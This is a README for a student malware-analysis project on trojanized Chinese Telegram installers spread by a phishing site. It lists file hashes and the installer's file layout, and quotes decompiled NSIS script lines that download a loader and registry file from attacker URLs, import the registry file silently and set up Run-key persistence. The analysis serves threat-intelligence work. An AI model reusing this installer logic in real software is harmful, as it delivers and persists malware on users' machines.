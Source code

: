 # Dangerous_Telegram
Contributor : [Lei HUANG](https://github.com/hualin999)

Tutors : Mr. [Alexandre DULAUNOY](https://github.com/adulau) & Mr. [Christian STUDER](https://github.com/chrisr3d)

## Project Context

As we all know, there is a firewall called "Great Firewall" in China. The Great Firewall is the combination of legislative actions and technologies enforced by the People's Republic of China to regulate the Internet domestically. Its role in internet censorship in China is to block access to selected foreign websites and to slow down cross-border internet traffic.

The effect includes : limiting access to foreign information sources, blocking foreign internet tools (e.g. Google Search, Facebook, Twitter, Wikipedia, and others) and **Mobile Apps**, and requiring foreign companies to adapt to domestic regulations.

Obviously our subject today is not "Great Firewall", but because of this, people in China cannot use Telegram through official downloads, and therefore Telegram does not release official Chinese installers and language packs. 

This has led to the uncontrolled (without legal constraints) spread of various **Trojans** and **Malware** disguised as phishing links (like official download link/installation package or Chinese installation package) or Chinese community chat files (Especially Telegram downloads chat files by default).

## Project Objective

**The purpose of this project is to analyze some Malware and Trojan samples that are currently spreading widely in the Telegram Chinese community, and to translate the relevant threat intelligence information into a specific analysis model for MISP.**

## Sample Analysis Procedure

The original sample was taken from http://telegram-vip.com, a phishing site disguised as a Chinese version of Telegram.

p1

The home page of the website has links to download the so-called versions, but if you click on the links to download "Telegram for Mac" or "Telegram for Windows", the downloaded file will be a Windows installer named "tsetup.2.1.10.exe". If you click on the link to download Telegram for Android or iPhone, you will be redirected to another page : 

P2

Depending on the link clicked, the results vary :

- Clicking on the iPhone download link will redirect you to the normal Apple App Store : https://apps.apple.com/app/telegram-messenger/id686449807

- Clicking on the Android version will redirect you to another link to download the installer : https://telegrcn.org/download/telegramCN_631.apk

- Clicking on the Mac version download link will redirect you to another link to download the installer : https://telegrcn.org/download/tsetup.2.1.10.dmg

- Clicking on the Windows version is the same as the installation package downloaded from the home page.

Next, for the sake of time, we will first analyze the Windows version of the "installer".

## Malware installation package information

|Filename|SHA256|
|:--------:|:------:|
|telegram_setup.2.1.6.exe|1f09381186a82f070d7beda66f575efdecd92b76217b5a0d9b904c1d64c89fc8|
|telegram_setup.2.1.10.exe|35133a3283381aa503f0d415de3ab8111e2e690bd32ad3dddde1213b51c877ba
|

Both installers use the NSIS ([Nullsoft Scriptable Install System](https://nsis.sourceforge.io/Main_Page)) package, which can be extracted directly with 7-zip to get the restored installation script. 7-zip added automatic decompilation of the NSIS script in 9.33, but removed it in 15.06, so be aware that version must be in between.

The directory structure of the two versions after decompression is as follows : 

```
2.1.6/
├── $PLUGINSDIR                        // NSIS Related Files
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   └── TextReplace.dll
├── C                                  // The file will be copied directly to the corresponding location during installation
│   └── PerfLog
│       ├── AddInProcess.exe           // Backdoor (Loader)
│       └── AddInProcess.exe.config
├── [NSIS].nsi                         // NSIS scripts extracted by 7-zip
├── ns.reg                             // Payload Registry File
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

```
2.1.10/
├── $PLUGINSDIR                        // NSIS Related Files
│   ├── InetLoad.dll
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   ├── System.dll
│   └── TextReplace.dll
├── [NSIS].nsi                         // NSIS scripts extracted by 7-zip
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

Comparing the two versions, we can obviously notice that version 2.1.10 is missing the key backdoor files **C:\PerfLog** and **ns.reg**, 2.1.6 directly packaged these files together, but 2.1.10 changed the way, using the NSIS script to download these two files only during the installation process, which can be seen in the NSIS script. The following is an excerpt from the 2.1.10 NSIS.nsi script with some of the relevant commands : 

```
# Download loader and registry file
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index2.php cnPath.exe
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index3.php ns.reg
```

```
# Replace 123456 to <ComputerName> from ns.reg then use regedit.exe to import
ReadRegStr $R1 HKLM SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName ComputerName
TextReplace::_FindInFile /NOUNLOAD $INSTDIR\ns.reg 123456 /S=1
TextReplace::_ReplaceInFile /NOUNLOAD $INSTDIR\ns.reg $INSTDIR\ns.reg 123456 $R1 "/S=1 /C=1 /AO=1"
Exec "regedit.exe /s $\"$INSTDIR\ns.reg$\""
```

```
# Move $INSTDIR\cnPath.exe to C:\PerfLog\AddInProcess.exe
StrCpy $R0 $INSTDIR\cnPath.exe
StrCpy $R1 C:\PerfLog\AddInProcess.exe
System::Call "Kernel32::MoveFileA(t R0,t R1)"
```

```
# Setup service registry and run
WriteRegStr HKCU Software\Microsoft\Windows\CurrentVersion\Run telegramCnService C:\PerfLog\AddInProcess.exe
ExecShell "" C:\PerfLog\AddInProcess.exe
```

Understanding the above NSIS script can help us learn how it is infected and how it is persisted.

## Load file AddInProcess.exe

